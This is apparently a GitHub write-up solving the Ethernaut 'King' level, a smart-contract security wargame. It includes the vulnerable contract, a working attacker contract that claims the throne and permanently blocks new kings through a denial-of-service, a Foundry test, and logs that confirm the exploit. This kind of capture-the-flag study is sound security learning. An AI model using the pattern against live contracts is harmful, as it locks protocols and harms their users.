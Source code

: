 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)

<br>

# What You're Supposed to Do?

in `09-King` Challenge, You Should Try To find a Way To Break the Game in a Way that a new `king` Cannot be Set Forever.

`09-King` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)

<br>

# How Did i Complete this Challenge?

Take a Look at `King` Contract, Especially the `receive()` function:

```javascript
    contract King {
        address king;
        uint256 public prize;
        address public owner;

        constructor() payable {
            owner = msg.sender;
            king = msg.sender;
            prize = msg.value;
        }

        receive() external payable {
            require(msg.value >= prize || msg.sender == owner);
            payable(king).transfer(msg.value);
            king = msg.sender;
            prize = msg.value;
        }

        function _king() public view returns (address) {
            return king;
        }
    }
```

if Attacker Uses a Contract Like This:

```javascript
    contract AttackerCanStayTheKingForever {
        King king;

        constructor(King _king) {
            king = _king;
        }

        function becomeKing() external payable {
            (bool success, ) =  address(king).call{ value: king.prize() }("");
            require(success, "Low Level Call Failed");
        }
    }
```

He Can Become `king` and then after that, Anyone That Tries to Become a `king`, will Fail. Why? This Type of DOS Attack is Known as `Griefing Attack`, where a `call` to a Contract fails forever and it Causes the Protocol to Break.

**How This Happens in this Particular Scenario?**

1. Attacker Becomes new `king` by Paying `value: king.prize()`.
   
2. Another User Comes and Tries To Become the new `king`, This Will Fail! Why? Because of this Line in `receive()` function: `payable(king).transfer(msg.value);`. 
   When We Try To Send ETH to a Contract That Does not Have `receive()` or `fallback()` function, it will Revert. Causing the Attacker to Stay the `king` Forever and Make the intended
   Functionality of the Protocol to Break.


i also Wrote test for this in `King.t.sol`, Which is Named as `testAttackerCanStayKingForever`:

```javascript
    function testAttackerCanStayKingForever() external  {
        AttackerCanStayTheKingForever attackerContract = new AttackerCanStayTheKingForever(king);
        console.log("Attacker Contract Address: ", address(attackerContract));
        console.log("User Address: ", user);
        attackerContract.becomeKing{value: 1 ether}();
        console.log("Current King is: ", king._king());


        console.log("User Tries To Become the new King.");
        vm.startPrank(user);
        (bool success, ) = address(king).call{value: king.prize()}("");
        assertFalse(success, "Low Level Call Failed");
        console.log("it Failed!");
        vm.stopPrank();

        console.log("Current King is: ", king._king());
        assertEq(king._king(), address(attackerContract));
    }
```

run the Following Command in Your Terminal to Run this Test: (Required to Have Foundry Installed.)

```javascript
    forge test --match-test testAttackerCanStayKingForever -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        Attacker Contract Address:  0x2e234DAe75C793f67A35089C9d99245E1C58470b
        User Address:  0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D
        Current King is:  0x2e234DAe75C793f67A35089C9d99245E1C58470b
        User Tries To Become the new King.
        it Failed!
        Current King is:  0x2e234DAe75C793f67A35089C9d99245E1C58470b
```